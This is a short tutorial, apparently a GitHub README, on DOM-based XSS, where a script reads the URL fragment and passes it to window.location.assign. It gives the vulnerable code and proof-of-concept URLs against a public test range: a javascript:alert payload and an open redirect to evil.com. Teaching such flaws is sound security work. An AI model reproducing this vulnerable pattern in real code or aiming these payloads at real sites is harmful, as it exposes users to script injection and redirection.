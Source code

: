# DOM-XSS101
Source,Sink and Exploit :


#### [ Description ] : These vulnerabilities source the payload from a component of the address bar, usually the fragment, and use javascript sinks to trigger DOM based XSS.


#### [ Location.hash ]
 
#### 1.Location.hash - assign - assign
#### 2.Vulnerable Code : 
 <script>
var payload = window.location.hash.substr(1);window.location.assign(payload);
 </script>
#### 3: source : window.location.hash.substd(1) 
//This source extracts the fragments part from the URL and store as payload variable(The portion after the # sign):


####  sink   : window.location.assign(payload) 
// This sink is use to redirect the browser to a new URL defined by the payload variable :

#### 4: Exploit : So we Can Exploit Open Redirect and DOM XSS by using this source and sink :
#### 5: POC ::

//https://public-firing-range.appspot.com/address/location.hash/assign#javascript:alert(1);//

//https://public-firing-range.appspot.com/address/location.hash/assign#//evil.com
